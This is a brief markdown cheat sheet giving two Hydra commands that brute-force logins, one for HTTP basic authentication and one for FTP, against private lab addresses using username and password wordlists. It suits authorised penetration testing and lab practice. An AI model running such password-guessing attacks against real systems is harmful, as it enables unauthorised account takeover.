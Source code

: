 # Hydra

## http basic auth

```bash
$ hydra -L username.txt -P password.txt -V -I  -t 1 "http-get://192.168.212.220/:A=BASIC:F=401" 
```

## FTP

```bash
$ hydra -L username.txt -P password.txt -V -I  -t 1 ftp://192.168.151.225 
```

